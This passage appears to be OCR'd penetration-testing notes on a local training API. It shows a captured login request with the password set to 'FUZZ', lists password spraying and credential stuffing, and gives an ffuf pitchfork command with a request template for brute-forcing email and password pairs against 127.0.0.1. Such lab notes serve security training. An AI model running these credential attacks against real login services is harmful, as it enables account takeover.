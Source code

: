   ```
  Referer: http://127.0.0.1:8888/login
  Content-Type: application/json
  Origin: http://127.0.0.1:8888
  Content-Length: 56
  Connection: close
  Cookie: XSRF-TOKEN=eyJpdiI6InEyblBFN3dGYjhvN2lhdGNFTmNtMWc9PSIsInZhbHVlIjoiNGkyTzdWNmJXYm1zdHFvbzVMZmJtY292UjcyalNPcjFFOHBwM3JxZW1CQTlLUndQMlpqandOdFpwcms1N3BFOHhISzRMRVRueno2alkvanVLRGxLM0Q5Sk5PQUFyNk1aOG1BZVkrR3ZXSEloQXpFam1IbDYrVXZGNjBGcS95WEkiLCJtYWMiOiI1ZjE5YzVjMzllZWZlMzQ2NWRmOGFiMDcyNGJlMTkxZDUwNjVmZWE1ZDBlMmYzZTA1OGU3NTUzNGM5ZTJkMTc2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlYwWlRvOEdzVW5jK0dqcTlPY2ZtckE9PSIsInZhbHVlIjoiQkhTeHNLWVJldEQ0d1NiKzRUSWZ6MmJUYlB4OXJjSFBmVWhTWk5JSkI2dEpqaThWRC9jcHpKekJwODZkVGNWRnJJOG1Dcmk4WEthRUl3U1o5RHhIY0daZ0czenZ0VEFpc1FyWTdsT29vek1yZWsxeitUeFFzUHp2RXZkOUhFQXQiLCJtYWMiOiIxODlkMzdjNzg1Yzc2Mzc1NjE4OTY4MzY2YWVkYzNiYjNjZTM0ZGFkZmI4ZjQ1N2VhYTVkYjhmZjRiNThlZTJhIiwidGFnIjoiIn0%3D
  Sec-Fetch-Dest: empty
  Sec-Fetch-Mode: cors
  Sec-Fetch-Site: same-origin

  {"email":"thiago123@teste.com","password":"FUZZ"}
  ```
  * Password Spray
  * Credential Stuffing
  ```
  Burp Pro Alternative - FFUF Example

  Command:
  ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401

  Request:

  POST /vapi/api2/user/login HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Content-Type: application/json
  Cookie: XSRF-TOKEN=eyJpdiI6InBOK2d4a0g5ck45Z0xDN0FGa2FYVFE9PSIsInZhbHVlIjoibXBydmpxMmFNTFRGSTlEb2tFVVpINnNpbm5MbjJWTGtIRG5YYm1OdjlpM0R2ZFlzZHZTbTRKZVRaaWVpNUZod3dXNzROT3ZVQ3BOcnRsN21HQXF5bzNuM0xWcjlwbGc0aEhQcGxRL3FUSnpZNFB5TmM3VDdOVW4yb093MTZ1S3MiLCJtYWMiOiJhODFjMWIzZmE3OGFjNTJmODA3NjViMjZmMDdmM2NlMjlmOGFlYzM3MDEwNTBlMzA5ODc5MTM4OTJkNDNhZDM3IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InB3dDBwZW5mb1FXN0dXalBDTkdpMnc9PSIsInZhbHVlIjoiRk05dGx5cTlORVlXUU9yVGxXWnMvaXRXVXluUmRwUjlFQUFld3RVcE9COUxiUVdTUHVPcStMYTg2S1JWaUpscUk5N3dwQXFDZ242UGtyOWNrMHVrUXYrdDFrYmg5ZE9oc1l6MHlQSjIxcFdSeUFVbXpHWGkwQ0djZWNHQ0RVa0wiLCJtYWMiOiI3ZjMzYTJjYjgzYWI0OTY1ZjRhYTI2N2I1YzYxYTQyNjcwMmVmNTU2MGJiY2M0NjEwZTBlZmU2ZDM2NjBmNWY2IiwidGFnIjoiIn0%3D
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: none
  Sec-Fetch-User: ?1
  Content-Length: 38

  {
    "email": "FUZZ1",
    "password": "FUZZ2"
  }
  ```
